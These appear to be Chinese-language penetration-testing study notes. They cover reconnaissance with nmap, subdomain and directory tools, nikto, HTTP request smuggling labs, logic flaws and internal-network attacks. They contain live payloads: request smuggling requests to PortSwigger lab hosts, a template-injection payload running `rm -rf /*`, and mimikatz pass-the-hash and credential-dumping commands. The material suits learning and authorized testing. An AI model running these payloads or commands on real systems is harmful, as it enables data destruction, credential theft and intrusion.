



# 攻防思路讲解



-   信息收集
-   漏洞扫描
-   漏洞挖掘
-   开始攻击
-   权限维持
-   内网渗透
-   报告输出


### 信息收集

网站目录

-   登录入口
-   后台入口
-   数据库下载地址
-   敏感文件下载地址
-   网站目录架构
-   GIT/SVN泄露
-   代码泄露
-   ……


怎么获取网站目录？

-   爬虫爬取
-   暴力扫描
-   搜索引擎（google、shodan……)
-   ...


ip/端口扫描

-   ip开放的端口
-   域名，子域名


工具

前端代码

-   代码框架
-   代码组件
-   代码库
-   代码注释
-   已知漏洞


后端代码

-   代码框架
-   代码组件
-   已知漏洞


数据库

-   数据库分类
-   已知漏洞


服务器

-   ip/端口
-   服务信息
-   已知漏洞


### 漏洞扫描

-   TOP XXX


### 漏洞挖掘

-   手工，burpsuite


### 开始攻击

### 权限维持

### 内网渗透

### 报告输出


# Nmap详解

活跃ip，端口，服务，操作系统探测等……


### 目标确认

```
Can pass hostnames, IP addresses, networks, etc.
  Ex: scanme.nmap.org, microsoft.com/24, 192.168.0.1; 10.0.0-255.1-254
  -iL <inputfilename>: Input from list of hosts/networks
  -iR <num hosts>: Choose random targets
  --exclude <host1[,host2][,host3],...>: Exclude hosts/networks
  --excludefile <exclude_file>: Exclude list from file
```

### 主机发现

````
-sL: List Scan - simply list targets to scan
-sn: Ping Scan - disable port scan
-Pn: Treat all hosts as online -- skip host discovery
-PS/PA/PU/PY[portlist]: TCP SYN/ACK, UDP or SCTP discovery to given ports-PE/PP/PM: ICMP echo, timestamp, and netmask request discovery probes
-PO[protocol list]: IP Protocol Ping
-n/-R: Never do DNS resolution/Always resolve [default: sometimes]
--dns-servers <serv1[,serv2],...>: Specify custom DNS servers
--system-dns: Use OS's DNS resolver
--traceroute: Trace hop path to each host
````


### 端口扫描

```
-p <port ranges>: Only scan specified ports
  Ex: -p22; -p1-65535; -p U:53,111,137,T:21-25,80,139,8080,S:9
--exclude-ports <port ranges>: Exclude the specified ports from scanning
-F: Fast mode - Scan fewer ports than the default scan
-r: Scan ports consecutively - don't randomize
--top-ports <number>: Scan <number> most common ports
--port-ratio <ratio>: Scan ports more common than <ratio>
```


### 扫描技术

```
-sS/sT/sA/sW/sM: TCP SYN/Connect()/ACK/Window/Maimon scans
-sU: UDP Scan
-sN/sF/sX: TCP Null, FIN, and Xmas scans
--scanflags <flags>: Customize TCP scan flags
-sI <zombie host[:probeport]>: Idle scan-sY/sZ: SCTP INIT/COOKIE-ECHO scans
-sO: IP protocol scan
-b <FTP relay host>: FTP bounce sca
```


### 探测服务

```
-sV: Probe open ports to determine service/version info
--version-intensity <level>: Set from 0 (light) to 9 (try all probes)
--version-light: Limit to most likely probes (intensity 2)
--version-all: Try every single probe (intensity 9)
--version-trace: Show detailed version scan activity (for debugging)
```


### 脚本扫描

```
-sC: equivalent to --script=default
--script=<Lua scripts>: <Lua scripts> is a comma separated list of
           directories, script-files or script-categories
--script-args=<n1=v1,[n2=v2,...]>: provide arguments to scripts
--script-args-file=filename: provide NSE script args in a file
--script-trace: Show all data sent and received
--script-updatedb: Update the script database.
--script-help=<Lua scripts>: Show help about scripts.
    <Lua scripts> is a comma-separated list of script-files or script-categories.
```


### 操作系统探测

```
-O: Enable OS detection
--osscan-limit: Limit OS detection to promising targets
--osscan-guess: Guess OS more aggressively
```


### 探测防火墙

```
-f; --mtu <val>: fragment packets (optionally w/given MTU)
-D <decoy1,decoy2[,ME],...>: Cloak a scan with decoys
-S <IP_Address>: Spoof source address
-e <iface>: Use specified interface
-g/--source-port <portnum>: Use given port number
--proxies <url1,[url2],...>: Relay connections through HTTP/SOCKS4 proxies
--data <hex string>: Append a custom payload to sent packets
--data-string <string>: Append a custom ASCII string to sent packets
--data-length <num>: Append random data to sent packets
--ip-options <options>: Send packets with specified ip options
--ttl <val>: Set IP time-to-live field
--spoof-mac <mac address/prefix/vendor name>: Spoof your MAC address
--badsum: Send packets with a bogus TCP/UDP/SCTP checksu
```


### 性能优化

```
Options which take <time> are in seconds, or append 'ms' (milliseconds),
  's' (seconds), 'm' (minutes), or 'h' (hours) to the value (e.g. 30m).
-T<0-5>: Set timing template (higher is faster)
--min-hostgroup/max-hostgroup <size>: Parallel host scan group sizes
--min-parallelism/max-parallelism <numprobes>: Probe parallelization
--min-rtt-timeout/max-rtt-timeout/initial-rtt-timeout <time>: Specifies
      probe round trip time.
--max-retries <tries>: Caps number of port scan probe retransmissions.
--host-timeout <time>: Give up on target after this long
--scan-delay/--max-scan-delay <time>: Adjust delay between probes
--min-rate <number>: Send packets no slower than <number> per second
--max-rate <number>: Send packets no faster than <number> per second
```


### 报告输出

```
-oN/-oX/-oS/-oG <file>: Output scan in normal, XML, s|<rIpt kIddi3,
     and Grepable format, respectively, to the given filename.
-oA <basename>: Output in the three major formats at once
-v: Increase verbosity level (use -vv or more for greater effect)
-d: Increase debugging level (use -dd or more for greater effect)
--reason: Display the reason a port is in a particular state
--open: Only show open (or possibly open) ports
--packet-trace: Show all packets sent and received
--iflist: Print host interfaces and routes (for debugging)
--append-output: Append to rather than clobber specified output files
--resume <filename>: Resume an aborted scan
--stylesheet <path/URL>: XSL stylesheet to transform XML output to HTML
--webxml: Reference stylesheet from Nmap.Org for more portable XML
--no-stylesheet: Prevent associating of XSL stylesheet w/XML output
```


### 杂项

```
-6: Enable IPv6 scanning
-A: Enable OS detection, version detection, script scanning, and traceroute
--datadir <dirname>: Specify custom Nmap data file location
--send-eth/--send-ip: Send using raw ethernet frames or IP packets
--privileged: Assume that the user is fully privileged
--unprivileged: Assume the user lacks raw socket privileges
-V: Print version number
-h: Print this help summary page.
EXAMPLES:
  nmap -v -A scanme.nmap.org
  nmap -v -sn 192.168.0.0/16 10.0.0.0/8
  nmap -v -iR 10000 -Pn -p 80

```


# 子域名

子域，subdomain，是在域名系统等级中，属于更高一层域的域，比如mail.example.com和calendar.example.com是example.com的两个子域，而example.com则是顶级域.com的子域。


### 网站平台获取

在线获取子域名：

https://developers.facebook.com/tools/ct/

https://crt.sh/

https://searchdns.netcraft.com/


google搜索：`site:*.baidu.com -www -baike`，搜索所有baidu.com的子域名，去掉www、baike。


方式总结如下：

-   爆破
-   域传输漏洞
-   证书子域名
-   robots.txt
-   http头跨域策略文件
-   搜索引擎 `site:*.baidu.com -www -baike`
-   其它搜索引擎
-   公开的数据，如github上面
-   ……


### Maltego

这里主要用来做子域名的收集，但是该软件的实际功能远远不止于此。


### Sublist3r

https://github.com/aboul3la/Sublist3r

该工具支持子域名爆破，以及基于搜索引擎搜索的方式来爆破子域名信息。


### OneForAll【功能强大】

https://github.com/shmilylty/OneForAll

扫描的结果是保存在sqlite数据库文件当中的，可以使用kali里面自带的sqlite工具打开。


### layer

https://github.com/euphrat1ca/LayerDomainFinder

Windows中的子域名爆破工具


# 指纹识别

whatweb【Linux自带】

whatruns【chrom插件】


# 网站目录扫描

怎么获取网站目录？

-   爬虫爬取
-   暴力扫描，dirsearch，https://github.com/maurosoria/dirsearch
-   搜索引擎（google、shodan、fofa）
-   burpsuite


# 漏洞扫描

## jaeles-project

go语言编写，支持多种payload。

jaeles：https://github.com/jaeles-project/jaeles

jaeles-signatures：https://github.com/jaeles-project/jaeles-signatures


## proxychinas-ng

kali里面自带的代理工具，可以使用该工具来给指定的应用程序进行代理。

```
proxychains -f /etc/proxychains-other.conf telnet targethost2.com

proxychains -f /etc/proxychains.conf nmap -p139,445 -sS -sV -O 192.168.10.230
proxychains nmap -p139,445 -sS -sV -O 192.168.10.230
```


## nikto

github：https://github.com/sullo/nikto

官网：https://www.cirt.net/

nikto默认测试web应用的80及443端口：

```
perl nikto.pl -h 192.168.0.1
perl nikto.pl -h 192.168.0.1 -p 443
perl nikto.pl -h https://192.168.0.1:443/
perl nikto.pl -h 192.168.0.1 -p 443 -ssl
perl nikto.pl -h 192.168.0.1 -p 80,88,443
```


# 网站WAF原理及识别

wafw00f【kali自带】，https://github.com/EnableSecurity/wafw00f


# 网站CDN检测&获取真实ip

CDN是Content Delivery Network（内容分发网络）的缩写。

探测CDN类型工具：

whichCDN，https://github.com/Nitr4x/whichCDN


# 蜜罐原理&HFish

蜜罐就是引诱攻击者去攻击的设备，类似一个靶场。当然它的作用主要就是记录攻击者攻击过程当中一些详细的信息，如payload等等。

HFish是一个简单的蜜罐服务器。


# 漏洞挖掘

owasp-top10-2021：https://owasp.org/Top10/zh_CN/


## 弱口令爆破

攻击工具：

hydra，支持的协议比较多，如ftp，mysql，ssh等

burpsuite，一般用于http协议的web应用程序。


## 逻辑漏洞

-   修改价格
-   修改数量
-   大数溢出
-   漏洞组合


### Excessive trust in client-side controls

过度的信任客户端，将商品价格直接写在前端，导致问题发生。


### High-level logic vulnerability

通过更改上商品的数量来控制其价格，如当商品数量为负数时，这时商品的数量是不是显示为负数呢？


## 信息泄露

-   报错
-   脚本，注释
-   phpinfo()
-   版本信息
-   git/svn版本控制


## 目录遍历

payload，

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Directory%20Traversal/Intruder/directory_traversal.txt


## 命令注入

前端传递的命令被后台的操作系统shell所执行了。

payload：https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Command%20Injection/Intruder/command_exec.txt


## WebSockets Security

websocket介绍，https://developer.mozilla.org/zh-CN/docs/Web/API/WebSockets_API

https://www.ruanyifeng.com/blog/2017/05/websocket.html


## HTTP request smuggling

 什么是http请求走私？请求走私是一种干扰网站处理从一个或多个用户接受的http请求序列的方式的技术，请求走私漏洞本质上通常很关键，它使攻击者可以绕过安全控制，未经授权访问敏感数据并直接危害其他应用程序用户。

详情：https://paper.seebug.org/1048/#54-xss

```
Connection: keep-alive   		# 关键点，代理服务与源服务之间保持长链接
Content-Length: 6
Transfer-Encoding: chunked    	# 这里的transfer-encoding一般默认为0进行分割数据库
```


request smuggling漏洞如何产生？

大多数http请求走私漏洞的出现是因为http规范提供了两种不同的方法来指定请求的结束位置，分别为：Content-Length和Transfer-Encoding标头。

Content-Length头是直接指定消息体的以字节为单位的长度，如：

```
POST /search HTTP/1.1
Host: normal-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```


该Transfer-Encoding首标可以被用于指定该消息体的用途分块编码。这意味着消息正文包含一个或多个数据块。每个块均由以字节为单位的块大小(以十六进制表示)组成，后跟换行符，然后是块内容。该消息以大小为零的块终止。例如:

```
POST / search HTTP/1.1
Host: normal-website.com
Content-Type: application/ x-www-form-urlencoded
Transfer-Encoding : chunked
```


### HTTP request smuggling, basic CL.TE vulnerability

payload:

```
POST / HTTP/1.1
Host: 0a1f002904fb416d82fefb0f00aa0091.web-security-academy.net
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

G
```



CL.TE的本质是代理服务器以Content-Length来识别请求体当中的有效数据，而后台源服务器却以Transfer-Encoding来识别请求体当中的有效数据。当代理服务器收到请求之后，会将第8行及以下的所有数据（Content-Length的长度所对应的数据）转发给源服务器，这时源服务器使用Transfer-Encoding来识别请求有效数据并使用`0`作为数据的分割符，即`0`后面的数据默认在当次请求当中被丢弃，放入下一次请求当中，当下一次请求来到时，再将剩余的数据拼接到请求里面，这里便形成了`HTTP请求走私`。


### HTTP request smuggling, basic TE.CL vulnerability

payload:

```
POST / HTTP/1.1
Host: 0a5800b803495b3083e0dd7500ab005b.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1

0

```




### HTTP request smuggling XSS


### HTTP request smuggling 缓存投毒


## Insecure CAPTCHA(不安全的验证码)

全自动区分计算机和人类的公开图灵测试(英语:Completely Automated Public Turing test to tell Computers and Humans Apart，简称CAPTCHA)，俗称验证码，是一种区分用户是机器或人类的公共全自动程序。在CAPTCHA测试中，作为服务器的计算机会自动生成一个问题由用户来解答。这个问题可以由计算机生成并评判，但是必须只有人类才能解答。由于机器无法解答CAPTCHA的问题，回答出问题的用户即可视为人类。

可以看看该验证码生成的地方是在前端还是后端，如果是在前端，则可以使用burpsuite工具更改一下服务器的响应内容，如验证码拖拉长度的容错率等。后端的换就要看看具体能否使用图像识别等工具进行辅助了。


## URL Redirection

Web应用程序接受用户控制的输入，该输入指定了指向外部站点的链接，并将其用于重定向过程，这导致了网络钓鱼攻击的发生。

`https://apple.com/longlonglong?redicturl=deelmind.com`


## Authtication

多重要素验证（英语:Multi-Factor Authentication，缩写为MFA)，又译多因子认证、多因素验证、多因素认证，是一种电脑访问控制的方法，用户要通过两种以上的认证机制之后，才能得到授权，使用电脑资源。例如，用户要输入PIN码，插入银行卡，最后再经指纹比对，通过这三种认证方式，才能获得授权。这种认证方式可以提高安全性。


多重要素验证的概念也广泛应用于计算机系统以外的各领域。例如许多国家使用的自助出入境检查系统允许旅客不经人工检查即可通过边境检查。使用时，通常需要旅行证件扫描、指纹、面部特征三种要素结合来验证身份。


双重认证（英语:Two-Factor Authentication，缩写为2FA)，又译为双重验证、双因子认证、双因素认证、二元认证，又称两步骤验证（2-Step Verification，又译两步验证)，是多重要素验证中的一个特例，使用两种不同的元素，合并在一起，来确认用户的身份。


### 2FA bypass using a brute-force attack

使用burpsuite的宏功能进行测试，位置如下：project options->Session->Macros


## Access Control Vulnerabilities

平行越权

垂直越权


## Clickjacking

## Server-side template inject

### Basic server-side template injection

payload:

```
?message=<%= system("rm -rf /*") %>
```


## CS


### frp内网穿透


## Beef-Xss


## 内网渗透

### 提权

使用已有的CVE漏洞进行提权


### Windows域


### PTH

pass the hash


```
privilege::debug
sekurlsa::logonpasswords

seckurlsa::pth /user:administrator /domain:deelmind.lab /ntlm:fdaifajfiadjfidafadfa
psexec \\deelmind.lab cmd
```


### CVE-2020-27955

git指定版本的RCE漏洞


## 域环境拓扑图的查看

BloodHound


## BAT脚本

